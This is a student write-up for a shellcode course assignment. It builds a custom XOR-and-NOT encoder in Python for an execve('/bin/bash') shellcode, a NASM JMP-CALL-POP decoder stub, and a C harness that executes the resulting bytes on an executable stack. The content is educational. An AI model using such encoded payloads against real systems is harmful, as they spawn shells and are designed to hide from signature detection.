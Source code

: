 # SLAE course
This course can be found here:
[Link to course](https://www.pentesteracademy.com/course?id=3)

## Assignment#4: What to do ?
For this assignment we have to:
* Create a custom encoding scheme 

Now, let's get to work.
=

 <div style="text-align: justify"> To do this task, I have chosen to use a two step encoding schema. The python code, used for this task, will run through the shellcode provided inside the 'shellcode' variable and then apply its routine on each bit. </div>

As said before, the shellcode will be encoded in two steps:
1) Each bit will be XOR with the 0xAA bit,
2) Then a NOT operation will be done

Below is the python code used to encode the shellcode:
```python
#!/usr/bin/python3
# Python XOR and NOT encoder

# The shellcode used is a basic systemcall to execve
shellcode = b"\x31\xdb\x53\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc9\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
encoded_shellcode = ""

print('Shellcode len: {}'.format(len(shellcode)))
print('Encoded shellcode ...')

# Encode the shellcode in two steps:
for x in bytearray(shellcode):
	# XOR encoder part
	# 0xAA is the Byte used to encode
	y = x ^ 0xAA

	# NOT encoder part
	y = ~y
	encoded_shellcode += '{},'.format(hex(y & 0xFF))

# Print an encoded shellcode format
print(encoded_shellcode)
```
Here is the results from the python encoder:
```console
#python3 encoder.py
Shellcode len: 30
Encoded shellcode ...
0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5
```

The 'decoder.nasm' file use the famous JUMP-CALL-POP technique to avoid NULL BYTES.

To make it simple:
1) <div style="text-align: justify"> The JUMP PART of the assembly code will first initialize ecx to NULL then move the length of the shellcode inside cl. It will finally jump inside the POP section. </div>
2) The CALL PART will call the 'stage2' of the code by jumping to it and push the 'shellcode' variable on the stack
3) <div style="text-align: justify"> The POP PART will simply pop the 'shellcode' variable inside esi and let the execution continues. The decoding process can start by using the NOT and the XOR operations on each bit of the shellcode. </div>
4) Finally, we jump in and execute the decoded shellcode 

Below is the assembly code used to decode our shellcode then execute it:
```nasm
;A simple NOT and XOR decoder
;Using the JUMP-CALL-POP method

global _start

;JUMP PART
_start:
    xor ecx, ecx                    ;Initialize ecx to NULL
    mov cl, shellcodeLen            ;Initialize cl to the shellcode length
    jmp stage1                      ;Jump to the CALL part (stage1)

;POP PART
stage2:
    pop esi                         ;pop the shellcode inside esi

;DECRYPTION PART
stage3:
    not BYTE [esi]                  ;Start the decryption process by a NOT on the value inside esi
    xor BYTE [esi], 0xAA            ;Then XOR the value pointed in esi by 0xAA
    inc esi                         ;Increment the address stores inside esi
    loop stage3                     ;loop until the cl == 0, which means the shellcode is decoded

    jmp shellcode                   ;Jump to the decoded shellcode and execute it

;CALL PART
stage1:
    call stage2                     ;Call the second part (stage2)
    ;The encoded shellcode is stored here
    shellcode: db 0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5
    shellcodeLen: equ $-shellcode   ;This lign is used to get the shellcode length
```

Let's compile it and get the shellcode from 'decoder.nasm':
```console
#nasm -f elf32 -o decoder.o decoder.nasm
#ld -m elf_i386 -z execstack -o decoder decoder.o
#objdump -d ./decoder |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5"
```

We can now add the newly generated shellcode to the following C code:
```c
#include <stdio.h>
#include <string.h>

// decoder.nasm shellcode is stored here
unsigned char shellcode[] = \
"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5";

int main()
{
	// print the length of the shellcode
	printf("Shellcode Length:  %d\n", strlen(shellcode));
	// convert shellcode to a function
	int (*ret)() = (int(*)())shellcode;
	// execute the shellcode has a function
	ret();

}
```

let's compile and execute it:
```console
#gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack
#./test_shellcode
```


